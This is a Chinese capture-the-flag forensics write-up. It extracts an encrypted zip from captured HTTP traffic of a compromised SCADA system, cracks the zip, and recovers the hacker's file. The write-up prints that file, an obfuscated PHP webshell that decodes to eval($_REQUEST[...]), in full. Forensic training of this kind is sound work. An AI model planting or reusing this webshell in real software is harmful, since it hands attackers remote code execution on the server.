








# 隐藏的黑客

## 题目描述
---
> 根据情报得知工控现场发现某SCADA系统被黑客攻破,附件为黑客在目录留下的文件和当时时间段捕获到的一部分流量包,你能根据这些信息分析出蛛丝马迹来么flag形式为 flag{}。

## 题目来源
---
纵横网络靶场社区 https://game.fengtaisec.com/

## 主要知识点
---


## 附件
---


## 题目分值
---
10

## 部署方式
---


## 解题思路
---

下载题目附件得到一个流量包：1.pcapng

分析HTTP流量,追踪流-HTTP,可以发现头PK…为一个压缩文件



找到该数据包，在No.481位置通过导出字节流进行导出为zip




```text
504b0304140009000800fab3034f444441274e010000b20200000c0000007765627368656c6c2e7068707f9743844087dfb0c526be5e3725eac03a31ff4c176a2cd3acfac3bdcb0fc8ed912fa0e5b120157b6bd2ddfa3dd4b02c69ab3a5238c8ceffb7c8d0bb490e8c956b8e40bcca05f4b001ae25cba954e125d6102de4f9d426a70ed6f93f21edf26847d14f6d585fcf5faeead32f4089a3d04a0a41edae49cc71e8922bbdda5aab410b14d77a2c22694484c7ae436569daa575ba898f2ad944c00891f9b6edb52b66c5eaadb10eb5c5bcfe864eb0cc9e9eb1923dc6bc6027c85fa0006f94161f7a898c27523f2cd059a775d3f6618a914796053638abb14f41a8de75fe5227b5ceea8767e865b4eeba7048dd952b93ed39e0bc69d299cad6429d119baa4153c16597819a06d125b7a7dd4f7294477ad25f2bd43967496da328b5859d2f491c88889384a28cbd5dea8f4dc0d211f7739f864fa4653e4ff933a691790c758002af9931edc6324a88beaf02702a52a7260b504b0708444441274e010000b2020000504b01021f00140009000800fab3034f444441274e010000b20200000c00240000000000000020000000000000007765627368656c6c2e7068700a00200000000000010018007e312c31084ad501a0613040084ad501a0613040084ad501504b050600000000010001005e000000880100000000
```

另一个比较简单的方法，也可直接用`binwalk -Me`就能把文件提取出来



导出的zip为2.5zip,发现还有另外一个压缩文件upload.zip


其中2.5.zip需要解压密码：



通过分析猜测解压密码需要从upload.zip得到。

思路为：把upload里面的密码提取出来，然后用这个提取出来的密码去爆破





爆破成功，密码为7b8b965ad4bca



得到webshell.php

```php
<?php

error_reporting(0);

@$c = array("1JFUVVFU1RbJzlhNzJjM","2Q1ZTc0ZjYwNTFiYjNiMzU","5MGZhOTMxOWZlJ10pOw","MGZhOTMxOWZlJ","MGZhOTMxOWZlJ");
@$str="ZXZhbCgkX";
@$o0o00o00o00o0o0 = chr(97).chr(115).chr(115).chr(101).chr(114).chr(116);
@$ooo00o0o0o0o0o0 = chr(98).chr(97).chr(115).chr(101).chr(54).chr(52).chr(95).chr(100).chr(101).chr(99).chr(111).chr(100).chr(101);
@$count = 0;
for($x=0;$x<=9;$x++){
        if (in_array($x, @$c)){
                @$str=@$str.@$c[@$count];
                if ($count == 2)
                {       
                        @$o0o00o00o00o0o0(@$ooo00o0o0o0o0o0(@$str));
                }
                @$count++;
        }
}
?>
```

执行后得到如下结果



eval($_REQUEST['9a72c3d5e74f6051bb3b3590fa9319fe']);

## Flag
---
flag{9a72c3d5e74f6051bb3b3590fa9319fe}

## 参考
---
